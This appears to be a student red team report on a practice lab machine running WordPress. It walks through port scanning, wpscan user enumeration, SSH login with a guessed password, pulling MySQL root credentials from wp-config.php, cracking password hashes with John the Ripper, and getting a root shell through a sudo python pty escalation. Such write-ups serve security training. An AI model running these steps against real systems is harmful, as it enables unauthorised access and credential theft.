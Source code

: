 # Red Team: Summary of Operations

## Table of Contents
- [Exposed Services](#Exposed-Services)
- [Critical Vulnerabilities](#Critical-Vulnerabilities)
- [Exploitation](#Exploitation)

## Exposed Services

Nmap scan results for each machine reveal the below services and OS details:

`$ nmap -sV 192.168.1.110`

- <img src="/Images/NMAP-scan.png">

This scan identifies the services below as potential points of entry:
**Target 1**
1. Port 22/TCP 	Open 	SSH
2. Port 80/TCP 	Open 	HTTP
3. Port 111/TCP 	Open 	rcpbind
4. Port 139/TCP 	Open 	netbios-ssn
5. Port 445/TCP 	Open 	netbios-ssn


## Critical Vulnerabilities

The following vulnerabilities were identified on each target:
###- Target 1
  1. <ins>**PORT ENUMERATION**</ins> (Severity: **MEDIUM**)
	- Target1 is open and responsive to ping requests allow port enumeration
  2. <ins>**WEAK PASSWORD POLICY**</ins> (Severity: **HIGH**)
	- User 'Michael' was able to use their username as password, no numerical or spacial characters were required.
	- OpenSSH was not configured to require further authentication beyond a simple password
  3. <ins>**MISCONFIGURED WEBSITE**</ins> (Severity: **HIGH**)
	- Sensitive data was found within public-facing source code. In addition password information saved within the MySQL database was unsalted, resulting in easily obtained user credentials.
  3. <ins>**PYTHON ESCALATION**</ins> (Severity: **MEDIUM-HIGH**)
	- User Steven's `sudo` privileges were misconfigured allowing for the leverage of a known python script exploit


## Exploitation

The Red Team was able to penetrate `Target 1` and retrieve the following confidential data:

### 1. <ins>**flag1.txt**:</ins> `b9bbcb33ellb80be759c4e844862482d`
- **Exploit Used**
        - WPScan to enumerate users of the Target 1 WordPress site
    - Command: 
        - `$ wpscan --url http://192.168.1.110/wordpress --enumerate u`


                <img src="/Images/wpscan-users.png">
                <img src="/Images/Flag1.png">

- Targeting user Michael *(Weak user credentials // lack of robust password policy)*
    - Brief manual Brute Force attack to guess Michael’s password
    	- User password was found upon attempting most basic username duplication as password credential.
            - Password: *michael*
- SSH in as Michael traversing through directories and files.
    - Flag 1 found in var/www/html folder at root in service.html
        - Commands:
            - `ssh michael@192.168.1.110`
            - `pw: michael`
            - `cd /var/www/html`
            - `ls -l`
            - `nano service.html`

### 2. <ins>**flag2.txt:**</ins> `fc3fd58dcdad9ab23faca6e9a3e581c`
- **Exploit Used**
    - Same SSH/Directory Traversal exploit for user Michael leveraged in the 1st exploit
        - Simple directory exploration found the **'flag2.txt'** file plainly visible in the /var/www/ directory.
            - `cd /var/www/`
            - `ls -l`
            - `cat flag2.txt`
                <img src="/Images/flag2.png">

### 3. <ins>**Flag3:**</ins> `afc01ab56b50591e7dccf93122770cd2`
- Exploit Used:
    - Viewing the wp-config.php file *(unrestricted file permissions)* revealed both username and password for MySQL database access.
    - Captured credentials were used to access and investigate the database.
    - Flag 3 was found in wp_posts table in the wordpress database.
        - Commands:
            - `mysql -u root -p’R@v3nSecurity’ -h 127.0.0.1` 
            - `show databases;`
            - `use wordpress;` 
            - `show tables;`
            - `select * from wp_posts;`

<img src="/Images/flag3.png">


### 4. <ins>**Flag4:**</ins> `715dea6c055b9fe3337544932f2941ce`
- Exploit Used:
    - Unsalted password hash and the use of privilege escalation with Python.
    - Capturing Flag 4: Retrieve user credentials from database, crack password hash with John the Ripper and use Python to gain root privileges.
        - Once having gained access to the database credentials as Michael from the wp-config.php file, username and password hashes were exported from the MySQL database. 
        - These user credentials are stored in the wp_users table of the wordpress database. The usernames and password hashes were copied/saved to the Kali machine in a file called wp_hashes.txt.
            - Commands:
                - `mysql -u root -p’R@v3nSecurity’ -h 127.0.0.1` 
                - `show databases;`
                - `use wordpress;` 
                - `show tables;`
                - `select * from wp_users;`

        - <img src="/Images/mysql-users.png">

        - On the Kali local machine the wp_hashes.txt was run against John the Ripper to crack the hashes. 
            - Command:
                - `john wp_hashes.txt`

        - <img src="/Images/john-show.png">

            - Once Steven’s password hash was cracked, the next step was to open an SSH shell as Steven. Since Steven's account had `sudo` privileges a python script vulnerability was leveraged to gain root access.
                - Commands: 
                    - `ssh steven@192.168.1.110`
                    - `pw:pink84`
                    - `sudo -l`
                    - `sudo python -c ‘import pty;pty.spawn(“/bin/bash”)’`
                    - `cd /root`
                    - `ls`
                    - `cat flag4.txt`

		- Python Escalate
			- <img src="/Images/python-escalate.png">

<img src="/Images/flag4.png">